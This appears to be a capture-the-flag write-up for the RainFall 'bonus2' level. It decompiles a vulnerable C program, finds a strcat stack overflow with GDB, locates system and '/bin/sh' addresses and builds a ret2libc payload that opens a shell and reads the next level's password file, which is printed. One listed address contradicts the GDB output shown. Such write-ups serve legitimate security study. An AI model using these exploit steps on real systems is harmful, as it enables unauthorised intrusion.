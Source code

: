 Let's disassmble `bonus2`.
My best decompilation attemp is following:
``` c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int language;

struct message
{
   char word1[40];
   char word2[32];
   char *language_code;
};

void greetuser(struct message message)
{
   char text[72];

   if (language == 1)
   {
      strcpy(text, "Hyv\xc3\xa4\xc3\xa4 p\xc3\xa4iv\xc3\xa4\xc3\xa4 ");
   }
   if (language == 2)
   {
      strcpy(text, "Goedemiddag! ");
   }
   if (language == 0)
   {
      strcpy(text, "Hello ");
   }

   strcat(text, message.word1);
   puts(text);
}

int main(int argc, char **argv)
{
   struct message message;

   if (argc != 3)
      return 1;

   memset(&message, 0, sizeof(struct message));

   strncpy(message.word1, argv[1], 40);
   strncpy(message.word2, argv[2], 32);

   message.language_code = getenv("LANG");
   if (message.language_code != NULL)
   {
      if (memcmp(message.language_code, "fi", 2) == 0)
         language = 1;
      if (memcmp(message.language_code, "nl", 2) == 0)
         language = 2;
   }

   greetuser(message);
   return 0;
}
```

Immediately we see an opportunity for buffer overflow: string `text` in function `greetuser` has length 72, but the maximum string that will be copied in it has length 84.
*84 = 40(argv[1]) + 32(argv[2]) + 12(the Finish greeting)*

To perform the buffer oveflow we should execute following steps:
1. Set LANG environment variable to `fi`
2. Pass as first argument a string with length 40
3. Pass as second argument a string with length 32

Let's try to this in GDB:
``` shell
$ gdb bonus2
(gdb) set args AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
(gdb) r
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Cool!
Now let's find the return address in out strings.
It is located here (look at `x`): `BBBBBBBBBBBBBBBBBBxxxx8BBBBBBBBBB`

Now, I'll perform `ret2libc` attack.
To do it, I'll need addresses of `system` function and of `/bin/sh` string.
I'll find them using GDB:
``` shell
(gdb) start
(gdb) print system
$6 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) info proc map
process 7262
Mapped address spaces:

   Start Addr   End Addr       Size     Offset objfile
    0x8048000  0x8049000     0x1000        0x0 /home/user/bonus2/bonus2
    0x8049000  0x804a000     0x1000        0x0 /home/user/bonus2/bonus2
   0xb7e2b000 0xb7e2c000     0x1000        0x0 
   0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
   0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
   0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
   0xb7fd2000 0xb7fd5000     0x3000        0x0 
   0xb7fdb000 0xb7fdd000     0x2000        0x0 
   0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
   0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
   0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
   0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
   0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, +99999999, "/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:  "/bin/sh"
```

So, here are the addresses:
`system` -> 0xb7e6b060
`/bin/sh` -> 0xb7e2c000

Finally, I need to insert these addresses into my arguments:
``` shell
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ ./bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB `echo -e 'BBBBBBBBBBBBBBBBBB\x60\xb0\xe6\xb7BBBB\x58\xcc\xf8\xb7BBB'`
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB`??BBBBX???BB
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```